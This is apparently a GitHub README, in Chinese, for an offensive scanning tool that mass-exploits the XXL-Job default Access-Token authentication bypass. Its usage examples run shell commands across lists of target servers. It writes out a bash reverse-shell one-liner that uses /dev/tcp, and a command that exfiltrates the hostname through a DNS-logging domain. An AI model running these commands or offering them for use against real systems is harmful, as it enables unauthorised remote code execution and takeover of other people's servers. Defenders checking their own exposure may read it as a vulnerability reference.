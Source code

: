 # Xxl-jobScan
Xxl-jobScan 默认Access-Token身份绕过漏洞扫描工具！！！

![image](https://github.com/user-attachments/assets/ff8bb335-c844-41a9-8a48-54067bcb3f26)
# 该工具支持：
1、批量url扫描
2、多线程扫描
3、自定义shell扫描。

# 实例：
## 1、单个url扫描：
python xxl-jobScan.py 127.0.0.1
![image](https://github.com/user-attachments/assets/d19bcb89-030c-4844-9e14-9795adce8aa0)

## 2、批量url扫描,定义20线程扫描（默认10线程）：
python xxl-jobScan.py -f target.txt -t 20

## 3、自定义命令shell：
可以直接弹shell，`bash -i >& /dev/tcp/IP/port 0>&1`
```
python xxl-jobScan.py -f target.txt -shell "ping -c 1 `hostname`.29419fcc17.ipv6.1433.eu.org."
```
![image](https://github.com/user-attachments/assets/f05b59e8-6464-4bcc-9337-5a97f5ff2272)
![image](https://github.com/user-attachments/assets/bd3bbd7f-6dfc-484b-a97b-cc20c8f6c333)
